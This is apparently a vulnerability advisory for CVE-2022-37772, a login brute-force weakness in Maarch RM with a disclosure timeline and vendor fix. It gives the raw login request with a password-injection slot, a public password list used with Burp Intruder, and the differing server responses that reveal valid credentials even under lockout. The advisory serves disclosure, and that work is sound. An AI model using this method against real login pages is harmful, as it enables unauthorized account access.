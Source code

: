 # Improper Restriction of Excessive Authentication Attempts

## Description

Improper Restriction of Excessive Authentication Attempts vulnerability exists that could allow unauthorized access when an attacker uses brute force. Affected Products: Maarch RM - all versions.

## Information

- CVE ID: CVE-2022-37772
- Vulnerability Type: Improper Restriction of Excessive Authentication Attempts (CWE-307)
- Vendor of Product: Maarch Xelians
- Affected Product: 
  - Maarch RM 2.8.X - all versions < 2.8.6
  - Maarch RM 2.9.X - all versions < 2.9.1
- Affected Component: page: /user/login (POST)
- Editor confirmed: Yes
- Discoverer: François Mehault (francois.mehault -at- proton -dot- me)

# References

- Advisory: https://github.com/frame84/vulns
- CVE: CVE-2022-37772
- Product site: https://maarch.ovh/maarch-rm/
- Release advisories: 
  - https://labs.maarch.org/maarch/maarchRM/-/blob/Support/2.8.X/CHANGELOG.md
  - https://labs.maarch.org/maarch/maarchRM/-/blob/Support/2.9.X/CHANGELOG.md
- ExploitDB: NA

# Approximate Timeline

- 2022/07/18: Vulnerabilities discovered
- 2022/07/29: Vulnerabilities reported to the editor (Maarch Xelians)
- 2022/08/31: Confirmation of vulnerability by the editor
- 2022/10/18: Vendor issued an official fix (Maarch RM 2.8.6 and 2.9.1)

# Technical details

## Improper Restriction of Excessive Authentication Attempts - Identified on Maarch RM 2.8.3, /user/login (POST)

- Vulnerable request :

```
POST /user/login HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
X-Laabs-Csrf: false
Content-Length: 71
Origin: https://target.com
Referer: https://target.com/user/prompt
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"userName":"admin","password":"inject_here","requestPath":"/user/prompt"}
```

- Payload example : https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt (sent with Burp Intruder)

- Details : it is possible to conduct a brute force attack on the authentication form due to excessive verbose responses from the application, whether or not a lockout policy is active. If a lockout policy is active, the application informs that the user account is locked out upon presentation of valid credentials. If there is no lockout policy, brute force is by definition possible.

- Privileges: No privilege is required

- error generated with invalid credentials (with or without lockout policy)

```
HTTP/1.1 401 Unauthorized
Date: Mon, 18 Jul 2022 09:02:49 GMT
Server: Apache
X-Laabs-UserStory: app/authentication
X-Laabs-Exception: bundle\auth\Exception\authenticationException; Username and / or password invalid in /appli/SAE/core/Reflection/Service.php:176
X-Laabs-View: auth/authentication/login
Content-Language: en
Content-Length: 82
Connection: close
Content-Type: application/json

{"status":false,"message":"Nom d\u0027utilisateur et \/ ou mot de passe invalide"}
```

- error generated with lockout policy and valid credentials

```
HTTP/1.1 403 Forbidden
Date: Mon, 18 Jul 2022 10:02:49 GMT
Server: Apache
X-Laabs-UserStory: app/authentication
X-Laabs-Exception: bundle\auth\Exception\authenticationException; Username  is locked in /appli/SAE/core/Reflection/Service.php:176
X-Laabs-View: auth/authentication/login
Content-Language: en
Content-Length: 68
Connection: close
Content-Type: application/json

{"status":false,"message":"L\u0027utilisateur  est verrouill\u00e9"}
```

- message generated without lockout policy and valid credentials

```
HTTP/1.1 200 OK
Date: Mon, 18 Jul 2022 14:53:57 GMT
Server: Apache
Set-Cookie: LAABS-AUTH=<redacted>; expires=Mon, 18-Jul-2022 15:53:57 GMT; Max-Age=3600; path=/; secure; HttpOnly
Set-Cookie: LAABS-CSRF=<redacted>; path=/; secure
X-Laabs-UserStory: app/authentication
X-Laabs-View: auth/authentication/login
Content-Language: en
Content-Length: 53
Connection: close
Content-Type: application/json

{"status":true,"message":"Utilisateur connect\u00e9"}
```
